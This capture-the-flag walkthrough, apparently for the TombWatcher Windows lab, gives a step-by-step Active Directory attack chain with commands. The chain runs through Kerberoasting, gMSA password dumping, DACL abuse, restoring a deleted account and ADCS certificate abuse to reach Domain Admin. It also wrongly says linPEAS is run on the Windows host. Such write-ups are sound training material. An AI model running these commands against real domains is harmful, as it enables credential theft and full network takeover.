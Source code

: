 # TombWatcher

```
Difficulty: Medium
Operating System: Windows
Hints: Active Directory, Kerberoasting, ACL Abuse, GMSA, DACL Abuse, Cert-based Escalation

```

## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:

```
nmap TombWatcher.htb -sV -A
PORT      STATE SERVICE         VERSION
53/tcp    open  domain          Simple DNS Plus
80/tcp    open  http            Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec    Microsoft Windows Kerberos
135/tcp   open  msrpc           Microsoft Windows RPC
139/tcp   open  netbios-ssn     Microsoft Windows netbios-ssn
389/tcp   open  ldap            Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http      Microsoft Windows RPC over HTTP
636/tcp   open  ssl/ldap        Microsoft Windows Active Directory LDAP over TLS
3268/tcp  open  ldap            Microsoft Windows AD Global Catalog
3269/tcp  open  ssl/ldap        Microsoft Windows AD GC over TLS
5985/tcp  open  http            Microsoft HTTPAPI httpd 2.0 (WinRM)
Domain: tombwatcher.htb
Hostname: DC01.tombwatcher.htb

```

Add to /etc/hosts:
10.10.11.72  DC01.tombwatcher.htb TombWatcher.htb
Foothold
The initial credentials provided are: henry : H3nry_987TGV!

User
Method 1 - Kerberoasting with ACL Abuse (from henry to alfred)
Recon as Henry: Use bloodhound-python to gather Active Directory information.

Bash
```
bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip
```
This reveals that the Alfred user has WriteSPN rights, which is exploitable via Kerberoasting.

Kerberoasting: Use targetedKerberoast.py to add a Service Principal Name (SPN) to Alfred and dump the Kerberos TGS hash.

Bash
```
python targetedKerberoast.py -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'

```
Crack Hash: Crack the dumped hash using John the Ripper with a wordlist.

Bash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
The password for Alfred is basketball.

```
Method 2 - GMSA Password Dump (from alfred to ansible_dev$, then SAM and john)
Recon as Alfred: Re-run bloodhound-python with Alfred's newly acquired credentials.

Bash

```
bloodhound-python -u alfred -p 'basketball' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip

```
No immediate Domain Admin path is found, but it's identified that the Infrastructure group is modifiable.

Infrastructure Group Escalation: Add Alfred to the Infrastructure group using bloodyAD.

Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u alfred -p 'basketball' add groupMember INFRASTRUCTURE alfred
```

GMSA Password Dump: Use gMSADumper.py to find and dump Group Managed Service Account (GMSA) blobs.

Bash

python gMSADumper.py -u alfred -p basketball -d tombwatcher.htb
This shows that the Infrastructure group can read the password for ansible_dev$.

Change Passwords via GMSA: Utilize bloodyAD to change the passwords for the SAM and john accounts by leveraging the ansible_dev$ GMSA account's dumped credentials.

Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u 'ansible_dev$' -p ':1c37d00093dc…' set password SAM 'jhvc@4569@'
```
```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u SAM -p 'jhvc@4569@' set password john 'jhvc@4569@'

```
This grants access to the john account, and user.txt can be retrieved.

## Root
Once we log in as john, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors. After we run linPEAS, we can notice a path for Active Directory Certificate Services (ADCS) abuse.

DACL Abuse for OU Takeover (from john to cert_admin)
DACL Abuse: Grant john FullControl over the OU=ADCS,DC=TOMBWATCHER,DC=HTB using impacket-dacledit.

Bash
```
impacket-dacledit \
  -action write \
  -rights FullControl \
  -inheritance \
  -principal john \
  -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' \
  tombwatcher.htb/SAM:'jhvc@4569@'
```

This gives john control over the ADCS Organizational Unit.

Restore & Change cert_admin Password: Inside an Evil-WinRM session as john, identify and restore the deleted cert_admin account, enable it, and reset its password.

PowerShell
```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
Enable-ADAccount -Identity cert_admin
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "jhvc@4569@" -AsPlainText -Force)
```

Then, confirm the password change for cert_admin using bloodyAD.

Bash

```

bloodyAD --host '10.10.11.72' -d tombwatcher.htb \
  -u john -p 'jhvc@4569@' set password cert_admin 'jhvc@4569@'

```
The cert_admin account is now controlled.

Certificate-Based Privilege Escalation (from cert_admin to Administrator)
Cert Enumeration: Use certipy to enumerate the Certificate Authority (CA) and available certificate templates, looking for vulnerabilities.

Bash
```
certipy find -u cert_admin -p "jhvc@4569@" -dc-ip 10.10.11.72 -vulnerable
```
This reveals the WebServer template with "Enrollee supplies subject: True" and an "ESC15 vulnerability detected".

Plan A (ESC15 / ESC1): Request a certificate with Client Authentication and an Administrator UPN using certipy.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' \
  -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -upn 'administrator@tombwatcher.htb' \
  -application-policies 'Client Authentication'
```
Then, use the generated PFX file to authenticate as the Administrator and obtain a shell.

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
```
From here, the Administrator's password can be changed, leading to full Domain Administrator access.

Plan B (Certificate Request Agent Attack - Alternative): If Plan A is not feasible, obtain an Agent certificate.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -application-policies 'Certificate Request Agent'
```
Then, impersonate the Administrator by requesting a user certificate on their behalf.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'User' \
  -pfx cert_admin.pfx \
  -on-behalf-of 'tombwatcher\Administrator'
```
Finally, authenticate using the on-behalf-of certificate to retrieve the Administrator's TGT, ccache, or NT hash, granting Domain Administrator privileges.

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72
```

## Summary:

🏁 Summary of Attack Chain

```

| Step | User / Access     | Technique Used                   | Result                                   |
| :--- | :---------------- | :------------------------------- | :--------------------------------------- |
| 1    | henry             | BloodHound                       | Found SPN write rights on Alfred         |
| 2    | henry → Alfred    | Kerberoast (SPN abuse)           | Cracked Alfred’s password                |
| 3    | alfred            | BloodHound                       | Found Infrastructure group modifiable    |
| 4    | alfred            | bloodyAD                         | Added Alfred to Infrastructure           |
| 5    | alfred            | gMSADumper                       | Dumped GMSA blob                         |
| 6    | ansible_dev$      | GMSA Abuse & bloodyAD            | Changed SAM, john, user.txt              |
| 7    | john              | impacket-dacledit                | Gained FullControl on ADCS OU            |
| 8    | john              | Restore ADObject & bloodyAD      | Took over cert_admin account             |
| 9    | cert_admin        | certipy                          | Enumerated CA, WebServer template (ESC15)|
| 10   | cert_admin → DA   | cert-based escalation (ESC15/ESC1/B) | Full domain admin access (Administrator) |

```